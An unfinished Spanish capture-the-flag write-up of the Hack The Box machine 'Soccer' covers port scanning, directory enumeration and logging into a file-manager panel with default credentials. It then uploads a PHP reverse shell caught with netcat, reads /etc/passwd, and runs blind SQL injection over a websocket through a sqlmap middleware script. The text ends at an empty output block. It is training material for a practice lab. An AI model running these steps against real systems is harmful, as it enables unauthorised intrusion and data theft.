 ```yaml
---
title: Soccer HTB
date: 2023-02-20
---
```

#linux #nginx 

SIN TERMINAR

## Reconocimiento

Comenzaremos comprobando que la máquina se encuentra activa con `ping`, y en base al ttl, podemos sospechar que se trata de una máquina **linux**. A continuación lanzamos [[nmap]] en busca de puertos abiertos:

```bash
sudo nmap -sS -p- --open --min-rate 5000 -n -Pn <ip>
```
```bash
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9091/tcp open  xmltec-xmlmail
```

Vemos que tenemos un *ssh*, una página *http* y otro servicio llamado *xmltec-xmlmail*.

Volvemos a lanzar nmap en busca de más información y las versiones de cada servicio:

```bash
sudo nmap -sCV -p 22,80,9091 -n -Pn <ip>
```
```bash
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
9091/tcp open  xmltec-xmlmail?
```

Vemos que se trata de una máquina Ubuntu, sin embargo nmap no consigue sacar información sobre el servicio del puerto 9091.

Tratamos ahora de acceder a la página, después de añadir el dominio al `/etc/hosts`. Pero vemos que se trata de un simple blog. Así que podríamos pasar a buscar posibles archivos y directorios con [[gobuster]] ([[Directories and files enumeration 1]]):

```bash
gobuster dir -u http://soccer.htb/ -w /usr/share/wordlists/dirb/common.txt
```
```bash
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soccer.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/02/20 10:40:23 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 162]
/.htpasswd            (Status: 403) [Size: 162]
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
Progress: 20469 / 20470 (100.00%)
===============================================================
2023/02/20 10:49:29 Finished
===============================================================
```

Vemos que tiene un directorio `/tiny/`, así que tratamos de acceder. Una vez dentro vemos una pestaña de login. Con una búsqueda rápida en internet encontramos que las credenciales por defecto para el servicio son `admin:admin@123`, y resultan ser válidas, dándonos acceso a un panel de administración.


## Explotación

En este punto, podríamos tratar de subir una reverse shell al servidor para tratar de conectarnos. Con [[wappalizer]] vemos que la página utiliza php como lenguaje. Así que subiremos una reverse shell en ***php*** ([[Reverse shell]]), en concreto esta de [aquí](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Y cambiamos la ip y el puerto, en mi caso usaré el 443:

```php
$ip = '127.0.0.1';  // CHANGE THIS
$port = 443;       // CHANGE THIS
```

Nos ponemos en escucha con [[netcat]]:

```bash
nc -lvnp 443
```

Y la subimos y accedemos a la ruta `http://soccer.htb/tiny/uploads/reverse_shell.php`.

```bash
listening on [any] 443 ...
connect to [10.10.16.46] from (UNKNOWN) [10.10.11.194] 44028
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 22:37:49 up  3:01,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```


## Escalada de privilegios

Si comprobamos que usuario somos con `whoami` vemos que somos `www-data`, y con `groups` vemos que únicamente pertenecemos al grupo `www-data`.

Antes de comenzar a elevar privilegios aplicaremos un [[Tratamiento de la tty]].

Una vez con una shell completamente interactiva podemos echar un vistazo al `/etc/passwd` para tratar de encontrar usuarios potenciales. Para nuestra suerte tenemos privilegios para listarlo:

```bash
bash-5.0$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
player:x:1001:1001::/home/player:/bin/bash
```

Con `grep bash` podemos buscar los usuarios potenciales, entre los que vemos a `root` y a `player`.

Como recordamos que el servidor se trataba de un [[nginx 1]], cpodemos tratar de listar el `/etc/nginx/sites-enabled` en busca de posibles subdominios:

```bash
bash-5.0$ cd /etc/nginx/sites-enabled
bash-5.0$ ls
default  soc-player.htb
```

Tratamos ahora de acceder al subdominio, añadiéndolo en el `/etc/hosts` (`sudo echo '<ip> soc-player.soccer.htb' >> /etc/hosts`) y accediendo por el navegador. La página parece igual que la que ya habíamos visto, pero ahora hay una pestaña de registro y de login.

Intentemos registrarnos y loguearnos.

En el código fuente de la página que nos sale una vez dentro (*CTL+U*), podemos ver:

```js
<script>
        var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
        
        var btn = document.getElementById('btn');
        var input = document.getElementById('id');
        
        [...]
	    function sendText() {
            var msg = input.value;
            if (msg.length > 0) {
                ws.send(JSON.stringify({
                    "id": msg
                }))
            }
            else append("????????")
        }
	    [...]
```

Además tenemos asignado un *número de ticket* y hay un buscador que aparentemente sólo dice si el ticket existe. En este punto podríamos buscar una posible vuln de [[Sql injection]]. Si probamos con nuestro número nos dice que *Ticket Exists*, en cambio con cualquier otro nos dice que *Ticket Doesn't Exist*. Pero si probamos con `<numero que no exista> OR 1`, entonces si existe, por tanto de ducimos que **existe una vulnarebilidad de sql injection**.

Como no podemos lanzar [[SQLMap]] directamente ya que la petición va a través de sockets, hacemos una búsqueda por internet sobre cómo realizar un SQLi a través de websockets. Lo que nos lleva al siguiente [artículo](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) con un script muy interesante en *python3*. 

El script hará las veces de transcriptor, poniéndose entre el servidor y sqlmap. Primero debemos cambiar `ws_server` y `data`:

```python
ws_server = "ws://soc-player.soccer.htb:9091"
```
```python
data = '{"id":"%s"}' % message
```

Y arrancamos el script:

```bash
sudo python3 script.py
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*
```

Después lanzamos sqlmap:

```bash
sudo sqlmap -u 'http://localhost:8081/?id=1' -p 'id'
```

Podemos ver que lanzamos sqlmap para que acceda mediante el script.

Obtenemos:

```bash
[01:14:17] [INFO] resuming back-end DBMS 'mysql' 
[01:14:17] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 1046 FROM (SELECT(SLEEP(5)))maQi)
---
[01:14:48] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[01:14:48] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/localhost'
```

Así que volvemos a lanzar sqlmap:

```bash
sudo sqlmap -u 'http://localhost:8081/?id=' --current-db
```
```bash

```